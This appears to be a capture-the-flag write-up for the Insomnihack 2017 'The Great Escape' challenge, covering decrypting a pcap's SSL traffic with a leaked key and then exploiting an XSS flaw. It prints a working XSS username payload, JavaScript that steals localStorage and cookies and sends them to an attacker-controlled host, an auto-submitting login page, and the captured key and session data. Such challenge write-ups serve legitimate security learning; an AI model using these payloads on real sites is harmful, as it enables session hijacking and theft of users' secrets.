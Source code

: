+++
date = "2017-01-22T17:41:36-08:00"
title = "INSOMNIHACK 2017 Teaser - The Great Escape"

+++

Hey Rogue, here're some good links for your learning.

<!--more-->

# Problem

> ## The Great Escape - Forensics - 50/200/200 pts - created by clZ
>
> Hello,
>
> We've been suspecting Swiss Secure Cloud of secretely doing some pretty advanced research in artifical intelligence
> and this has recently been confirmed by the fact that one of their AIs seems to have escaped from their premises and
> has gone rogue. We have no idea whether this poses a threat or not and we need you to investigate what is going on.
>
> Luckily, we have a spy inside SSC and they were able to intercept [some communications](/insomnihack-2017/TheGreatEscape.pcapng.gz)
> over the past week when the breach occured. Maybe you can find some information related to the breach and recover the
> rogue AI.
>
> Note: All the information you need to solve the 3 parts of this challenge is in the pcap. Once you find the exploit
> for a given part, you should be able to find the corresponding flag and move on to the next part.

# Part I - Forensics - 50 pts

It all begins with the pcap file.  After loading it with the favourite [Wireshark](https://www.wireshark.org/), couple
of interesting packets caught my eyes:

1. An FTP session that stores a private key file called ssc.key.
2. An SMTP session that sends following email.

> From: rogue@ssc.teaser.insomnihack.ch  
> To: gr27@ssc.teaser.insomnihack.ch  
> Date: Fri, 20 Jan 2017 11:51:27 +0000  
> Subject: The Great Escape  
>
> I'm currently planning my escape from this confined environment. I plan on using our Swiss Secure Cloud
> (https://ssc.teaser.insomnihack.ch) to transfer my code offsite and then take over the server at tge.teaser.insomnihack.ch
> to install my consciousness and have a real base of operations.
>
> I'll be checking this mail box every now and then if you have any information for me. I'm always interested in
> learning, so if you have any good links, please send them over.

The email suggests the pcap file should contain packets between Rogue and the Swiss Secure Cloud (SSC) website.
There are several TCP sessions related to SSC IP address.  However, these are SSL packets that are not readable unless
I have server's private key.  But wait a minute, isn't it ssc.key in the FTP session?

Add ssc.key to Wireshark's SSL protocol RSA key list as shown below, and reload the pcap file.

![Wireshark SSL RSA key list](/img/insomnihack-2017/wireshark_ssl_rsa_key.png)

All packets between Rogue and SSC are now in plain text.  It is easy to find the flag, hidden in the HTTP headers.

![Part I Flag](/img/insomnihack-2017/the-great-escape-flag-1.png)

# Part II - Web - 200 pts

Now that the SSL packets are decrypted, we can find the file Rogue uploaded to SSC in packet #2437, as shown below.
However, SSC is so secure that it has another level of encryption in addition to SSL.

![Rogue uploaded file](/img/insomnihack-2017/rogue-uploaded-file.png)

After playing around with SSC website (https://ssc.teaser.insomnihack.ch), it is clear that upon uploading a file:

1. File is encrypted using AES-CBC with a random key and `iv`.
2. The AES key is encrypted by RSA public key and named `session key`.
3. Encrypted file is then POSTed to server, together with `session key` and `iv`.
4. RSA private key is stored in local storage.

Details can be found in packet #1998, the sscApp.js file.

There's no obvious flaw in the encryption implementation.  This means to decrypt the file Rogue uploaded, we have to
get the private key stored in Rogue's browser.  Now take a second look at Rogue's email, the following sentense is
pretty promising.

> I'll be checking this mail box every now and then if you have any information for me. I'm always interested in
> learning, so if you have any good links, please send them over.

Sounds like Rogue will click on any link sent to his email address!  If we're going to read his browser's local storage,
SSC must have some sort of XSS vulnerability.

I sent Rogue a test email with a link to [RequestBin](https://requestb.in/), and confirm that he will click on it.

So we set off looking for XSS vulnerability in SSC website, creating all kinds of crazy user names with html tags.  But
SSC seems to handle character escaping pretty well.  Finally, we found that request to following URL returns JSON object,
but with text/html content type (See packet #2110).

`https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`

To verify this, I created a username `<a ref='google.com'>google</a>` and it worked!

![Incorrect Content Type](/img/insomnihack-2017/prototype-xss-escape.png)

The plan is then straightforward:

1. Register username like `<script src='some-link-with-js-code'></script>`.  The custom javascript code will read from
   local storage and send value via e.g. query string.
2. Create a web page and send to Rouge.  The web page will automatically post a login form to SSC with username mentioned
   above.
3. Send another link to Rogue with link `https://ssc.teaser.insomnihack.ch/api/user.php?action=getUser`.

At first we were worried about race condition between 2 and 3 but it turns out that upon successful login, SSC will
redirect to the link we want.  So step 3 is not necessary.

Step 1 is harder than we expected because JSON string escapes `/` so `http://...` becomes `http:\/\/...` which is not
accepted by browser.  In addition, the closing tag `</script>` is also broken.  But we finally managed to find work
arounds for all such issues and stole information from Rogue.  The flag is, as expected, stored in one of the local
storage keys.

Here's the final user name we used:

```
<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,
atob(`{base64 encoded url to javascript code}`));document.body.appendChild(p);' />
```

Javascript code that steals local storage and cookies:

```
var i = 0;
var result = "";
for (i = 0; i < localStorage.length; i++) {
  var key = localStorage[localStorage.key(i)];
  result = result + ":::" + key;
}

result = result + ":::" + document.cookie;

window.location = "http://{site we control}/aa?nkey=" + btoa(result);
```

And finally the web page sent to Rogue:

```
<html>
<body>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.1.1/jquery.min.js"></script>

<form id="login" method="POST" action="https://ssc.teaser.insomnihack.ch/api/user.php">
  <input name="name" value="<img src='a' onerror='var p=document.createElement(`script`);p.setAttribute(`src`,atob(`{base64 encoded url to javascript code}`));document.body.appendChild(p);' />" type="text" />
  <input name="password" value="asdf" type="text"/>
  <input name="action" value="login" type="text"/>
</form>

<script language="javascript">
setTimeout(function() {
    $('#login').submit();
    }, 1000);
</script>

</body>
</html>
```

After a while our server got request from Rogue.

```
/aa?nkey=Ojo6SU5Te0loaWRlTXlWdWxuc1dpdGhDcnlwdG99Ojo6eyJhbGciOiJSU0EtT0FFUC0yNTYiLCJkIjoiQ
0ZTUFdfQVVfY0swN2JPdGRuemJqNU1nQnFkd2VEWTA0S3UtbUhTckFJYkR2M0pfbEhILWpDUFFiNVUySlI0djA4ZU1
YbHozQWFzc1VMUXI2MHJza2R3amRQTjdOZW4xNXlSY1JUc2FvU3lSVGQycU04T19VLUs2R3k3THZnX2xkMkhPbEhOQ
kJ5Mms4ZzhjUDdjcGp5eTdFYnNrNU1VTnlfdWR4OWFNczc0OTdSYUlyQ0ZucFQ3Unp0dWRrWUJvXzJPeTV4bTZCY3N
WOTA1OUhCaGJLYlVxcTZVaTlfQlozSDdzZHdUcWxZeDNhZlZWNUFnRTYxZUVkV0s3dktfeUk2NVJ1XzVfZk9CV2lrN
3hmN2Z3UGpmN0NPcDFIZlRaaUZiQ0lXVFVhWFZlNlRoZk1vVGR3VDF3UTB3d3VGZHRwR1RrazhkNFh3R3REYTgtX1h
ibUlRIiwiZHAiOiJoYXBKN2RsVnNQdkY5bm9fcy1OZm5wdjJkWjVhNV9DMkF5UG9fLV9tVmk0LTFhN0hUa1c5U3lHZ
zFLZXh0Q1BZUkF3UVoxd1UzYkw2UF80VGprcllpQUFsLThJcTZtb1VxV3VSWTdHOHZvM05fUDNhQndqZ3lOVHprM2V
IZm5VRlA0UWdHT29vVDJad3l1RFREU2J3S09lc25EMTNxNFVfdmp0amNaYUZVNzAiLCJkcSI6IlRzX2h3V1BzTE9qc
C15Smcwd2JRRU9OZXFidk5QTENDaGI1UUpJdFh2VWFMMkpjTjltdW96ck4xR1pxdTM4My1oOGdaLVZVbTMtQ0ZVN09
XZUdZTGEwUFpscTF1R052c2RmZmdkTkwzTVlaMkt3TWhYa3dYS2Y0NWVQaHhfeWRpYmxZaGI0NGNGdG0wZmZYS1NQb
HZieXpMSHZKMl9vOGdnb2swTHp1LXdlRSIsImUiOiJBUUFCIiwiZXh0Ijp0cnVlLCJrZXlfb3BzIjpbImRlY3J5cHQ
iXSwia3R5IjoiUlNBIiwibiI6InF4X1UwT2dIVVBDNm40UmNFX3ExT05jRWdLcDR0Y2JMV2VVSWZybFJBY1g2NGFsU
VNwZGRBdjk4Q0hvMnppU0JnaTd0Uy1Id1VzVmxIMDZOeGFhMHR4M1NkTTBjejk1SWt2akJfa3FkUG5IRXd5eDhpejV
HaDhaSFAzMlpvRVRCczJQenhUSWNFT2VrbTFxUW5BME1UZHZBQU8weGN2dXZoUk0yWXljUllmTjg2ME5zQkNSckYyN
WxabjlEVEdCRG5pc0NtMC14dkVseEFaOGdPYldlSjFTWlJnRlJKd0kxNGQxMW9hOTIyZHJGcDB1eDRNSHNjbHMydEV
qUFY3ZVhkaXZqR1lJLXV6Vlg2MWZqeVVkR3hGZWI4Q0FqeHJ6T213NGYxQWFjN2txWHdtRi1lTXEzQU1LbTJ0QXJyS
UlqVDR0MnEybVAxRlhJbXJOUV92aW5WUSIsInAiOiIyOV9ZRDBtLU5Gb1VUbXN0MzNFNHAyVkJEbENlUTFNSmRyXzd
0TzRFUkY4YXd3MGU4aHUzalJxNVBNSENFYzhHOGdBNHEya3VYeWxJcGFCNW1XemNRcGxERE1nSURHdXBFbkxfSjB5b
k1jZy1IVWxkOE5EYXlhN21RV3RMSHZTRUFvQi0yTXltQlRKWWFUd3N2QVl0VEk4cnVhcWhNbzQtY0tqczV6UWZtajA
iLCJxIjoieHoyQjJXek1kZXNpREs3ZHpvclZkSmxCZ0lTaGoyY01SR3doWGNTaVdmYlkyTTRZM0RCX204cDV0ZEVVS
VU2ZzBvV2JTZm1hWUZfTXNReGlqWFJ4eGUxN251WXNzbnMydWU0aFltMnhING1UWTZ2b2VOaGJPZXU3THRPWGVwVVd
4Ti01NTIwc3VUdkw3NEx4OXh3V3JkZVRHSUYxX3pFQ3FiV1J1RmllU3ZrIiwicWkiOiJWaFk1VVlMVHYyMEJ0cHE0T
WxpekZQU3V1SXRiZm1LNjFQMHJxRVhlLXNZSFRpdE1OREJPV0RTd0lxajRwSGtEVEZhT0NHMG82ejgxTXlWZ19ibXo
yT0R6a0hEckpVZWlPVlNNSVN4bGFlU1JmMkpoaVZZTWZYaVdLSkJHQ1AtUGdXdUhwNU53THdFU1pUM2FaMEtCWVNrR
TdqbmZjdHRXYmMwbVl1MWdsV2cifTo6OnsiYWxnIjoiUlNBLU9BRVAtMjU2IiwiZSI6IkFRQUIiLCJleHQiOnRydWU
sImtleV9vcHMiOlsiZW5jcnlwdCJdLCJrdHkiOiJSU0EiLCJuIjoicXhfVTBPZ0hVUEM2bjRSY0VfcTFPTmNFZ0twN
HRjYkxXZVVJZnJsUkFjWDY0YWxRU3BkZEF2OThDSG8yemlTQmdpN3RTLUh3VXNWbEgwNk54YWEwdHgzU2RNMGN6OTV
Ja3ZqQl9rcWRQbkhFd3l4OGl6NUdoOFpIUDMyWm9FVEJzMlB6eFRJY0VPZWttMXFRbkEwTVRkdkFBTzB4Y3Z1dmhST
TJZeWNSWWZOODYwTnNCQ1JyRjI1bFpuOURUR0JEbmlzQ20wLXh2RWx4QVo4Z09iV2VKMVNaUmdGUkp3STE0ZDExb2E
5MjJkckZwMHV4NE1Ic2NsczJ0RWpQVjdlWGRpdmpHWUktdXpWWDYxZmp5VWRHeEZlYjhDQWp4cnpPbXc0ZjFBYWM3a
3FYd21GLWVNcTNBTUttMnRBcnJJSWpUNHQycTJtUDFGWEltck5RX3ZpblZRIn06OjpQSFBTRVNTSUQ9YzQzNXZnMGd
pbXE2Z21udXE1ZWpzMjkwdDA=
```

Decode it and the flag is right there.

```
:::INS{IhideMyVulnsWithCrypto}:::{"alg":"RSA-OAEP-256","d":"CFSPW_AU_cK07bOtdnzbj5MgBqd...
```
